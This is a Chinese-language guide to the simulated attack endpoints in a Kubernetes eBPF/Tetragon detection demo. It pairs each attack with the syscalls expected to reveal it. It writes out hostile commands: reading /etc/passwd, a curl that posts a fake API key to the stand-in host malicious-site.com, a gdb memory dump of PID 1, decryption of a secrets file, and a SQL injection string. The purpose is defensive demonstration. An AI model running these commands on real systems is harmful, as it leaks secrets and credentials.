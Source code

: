 # 安全測試模擬指南

本文檔詳細說明了 `fintech-ebpf-demo` 專案中內置的各項安全測試模擬功能。這些功能旨在模擬常見的攻擊行為，以驗證和展示 Cilium/Tetragon eBPF 的內核級監控、檢測與攔截能力。

## 核心概念

所有安全測試都遵循一個標準的流程：

1.  **使用者觸發**: 在前端 UI（如安全頁面）點擊一個測試按鈕。
2.  **前端請求**: 瀏覽器向後端 `trading-api` 服務發送一個特定的 API 請求（通常是 POST）。
3.  **後端執行**: `trading-api` 服務接收到請求後，其對應的處理函數 (Handler) 會在自身的 Pod 容器內部執行一個預設的、用於模擬攻擊的 Shell 命令。
4.  **eBPF 捕獲**: 部署在 Kubernetes 節點上的 Tetragon Agent，其 eBPF 探針會實時監控內核中的系統調用 (Syscall)。當後端容器執行惡意命令時，相關的系統調用（如 `execve`, `openat`, `connect`, `write` 等）會被 eBPF 探針捕獲。
5.  **事件上報與展示**: Tetragon 將捕獲到的原始系統調用轉化為結構化的安全事件，並根據預設或自訂的策略（Tracing Policy）判斷其是否為惡意行為。這些事件隨後可以通過 API、日誌或 WebSocket 推送給前端，最終展示在「eBPF 安全事件中心」頁面。

---

## 安全測試詳解

以下是每個安全測試端點的具體行為和流程分析。

### 1. 命令注入 (Command Injection)

- **Endpoint**: `POST /api/v1/security/test/command`
- **模擬場景**: 模擬攻擊者利用應用程式漏洞，注入並執行任意作業系統命令。這是最直接和危險的攻擊之一。
- **後端行為**: `TestCommandInjection` 處理函數會執行以下命令：
  ```bash
  ps aux
  ```
  這個命令會列出當前容器內運行的所有進程。雖然 `ps` 本身不是惡意命令，但它模擬了攻擊者在獲得執行權限後，進行信息收集（如查看正在運行的服務和進程）的典型第一步。
- **eBPF 監控點**:
  - `execve`: Tetragon 會捕獲到 `trading-api` 進程創建了一個新的子進程 `ps`。這是最關鍵的監控點。
  - `openat`, `read`: `ps` 命令為了獲取進程信息，會讀取 `/proc` 文件系統下的多個文件。

### 2. 任意文件訪問 (File Access)

- **Endpoint**: `POST /api/v1/security/test/file`
- **模擬場景**: 模擬攻擊者讀取或寫入伺服器上的敏感文件，如配置文件、密碼文件或原始碼。
- **後端行為**: `TestFileAccess` 處理函數會執行以下命令：
  ```bash
  cat /etc/passwd
  ```
  這個命令嘗試讀取包含系統用戶列表的 `/etc/passwd` 文件。這是一個典型的攻擊行為，用於收集目標系統的用戶信息。
- **eBPF 監控點**:
  - `execve`: 捕獲 `cat` 命令的執行。
  - `openat`: 捕獲對 `/etc/passwd` 文件的「打開」操作。Tetragon 的策略可以專門針對對此類敏感文件的訪問進行告警。
  - `read`, `write`: 捕獲文件的讀取和寫入操作，並可以顯示寫入的內容。

### 3. 網絡掃描 (Network Scan)

- **Endpoint**: `POST /api/v1/security/test/network`
- **模擬場景**: 模擬攻擊者在攻入一個容器後，對內部網絡進行橫向掃描，以發現其他可攻擊的服務。
- **後端行為**: `TestNetworkScan` 處理函數會執行以下命令：
  ```bash
  curl -s -o /dev/null http://risk-engine:30081/health
  ```
  這個命令會向內部網絡的 `risk-engine` 服務發起一個 HTTP 請求。這模擬了攻擊者探測內部服務是否存活以及開放了哪些端口。
- **eBPF 監控點**:
  - `execve`: 捕獲 `curl` 命令的執行。
  - `connect`: 捕獲 `trading-api` 容器嘗試與 `risk-engine` 容器建立 TCP 連接的系統調用，包括目標 IP 和端口。
  - `send`, `recv`: 捕獲網絡數據的發送與接收。

### 4. 敏感數據洩露 (Sensitive Data Leak)

- **Endpoint**: `POST /api/v1/security/test/sensitive`
- **模擬場景**: 模擬攻擊者將竊取到的敏感數據（如用戶資料、API 金鑰）通過網絡外傳到其控制的服務器。
- **後端行為**: `TestSensitiveDataLeak` 處理函數會執行以下命令：
  ```bash
  echo "user_id: 123, api_key: sec-xxxxxxxx" | curl -X POST -d @- http://malicious-site.com/log
  ```
  該命令將一條包含模擬敏感數據的字符串通過管道傳遞給 `curl`，並 POST到一個虛構的惡意域名 `malicious-site.com`。
- **eBPF 監控點**:
  - `execve`: 捕獲 `echo` 和 `curl` 命令的執行。
  - `connect`: 捕獲到對外部惡意域名 `malicious-site.com` 的連接請求。Tetragon 策略可以配置域名黑名單，對此類連接直接告警。
  - `sendto` / `write`: 可以捕獲到正在通過網絡發送的具體數據內容，從而識別出數據洩露。

### 5. SQL 注入 (SQL Injection)

- **Endpoint**: `POST /api/v1/security/test/sql`
- **模擬場景**: 模擬攻擊者通過應用輸入點注入惡意的 SQL 查詢，以繞過認證、竊取或篡改數據庫內容。
- **後端行為**: `TestSQLInjection` 處理函數會執行以下操作：
  它會在日誌中記錄一條模擬的惡意 SQL 查詢，但 **不會** 真正執行它，以避免破壞數據庫。
  ```go
  logger.WithField("query", "SELECT * FROM users WHERE id = '1' OR '1'='1';").Warn("模擬SQL注入攻擊")
  ```
- **eBPF 監控點**:
  - 此測試主要在應用層面產生日誌，而非觸發典型的內核級異常。但如果真的執行了惡意查詢，Tetragon 可以通過監控數據庫進程（如 `postgres`, `mysql`）的網絡通信來發現異常的查詢模式。

### 6. 權限提升 (Privilege Escalation)

- **Endpoint**: `POST /api/v1/security/test/privilege`
- **模擬場景**: 模擬攻擊者利用系統漏洞（如 SUID/GUID 程序）將自己從普通用戶權限提升到 root 權限。
- **後端行為**: `TestPrivilegeEscalation` 處理函數會執行以下命令：
  ```bash
  sudo -l
  ```
  該命令嘗試列出當前用戶可以通過 `sudo` 執行的命令。這是攻擊者在尋找提權路徑時的常用手段。
- **eBPF 監控點**:
  - `execve`: 捕獲 `sudo` 命令的執行。`sudo` 的執行本身就是一個值得關注的高權限操作。
  - `setuid`/`setgid`: 如果提權成功，Tetragon 會捕獲到進程的有效用戶 ID (EUID) 發生變化的系統調用。

### 7. 加密弱點 (Crypto Weakness)

- **Endpoint**: `POST /api/v1/security/test/crypto`
- **模擬場景**: 模擬應用程序使用了過時或不安全的加密算法，或者攻擊者嘗試對加密文件進行操作。
- **後端行為**: `TestCryptoWeakness` 處理函數會執行以下命令：
  ```bash
  openssl enc -aes-128-cbc -d -in /config/secrets.enc -out /tmp/secrets.dec
  ```
  該命令使用 `openssl` 工具嘗試解密一個（虛構的）加密文件。
- **eBPF 監控點**:
  - `execve`: 捕獲 `openssl` 命令的執行。
  - `openat`: 捕獲對加密文件 `/config/secrets.enc` 的讀取和對輸出文件 `/tmp/secrets.dec` 的寫入。可以配置策略來監控對特定加密庫或工具的調用。

### 8. 內存轉儲 (Memory Dump)

- **Endpoint**: `POST /api/v1/security/test/memory`
- **模擬場景**: 模擬攻擊者使用調試工具（如 gdb）附加到一個正在運行的進程上，並轉儲其內存，以竊取內存中的敏感信息（如密碼、私鑰）。
- **後端行為**: `TestMemoryDump` 處理函數會執行以下命令：
  ```bash
  gdb -p 1 -batch -ex "dump memory /tmp/proc1.dump 0x400000 0x401000"
  ```
  該命令嘗試使用 `gdb` 調試器附加到 PID 為 1 的進程（通常是容器的初始進程），並將其一小段內存轉儲到 `/tmp/proc1.dump` 文件。
- **eBPF 監控點**:
  - `execve`: 捕獲 `gdb` 命令的執行。在生產環境中，任何調試工具的執行都極其可疑。
  - `ptrace`: `gdb` 的核心是 `ptrace` 系統調用，Tetragon 可以精確捕獲哪個進程正在嘗試 `ptrace` 另一個進程，這是攻擊的核心指標。 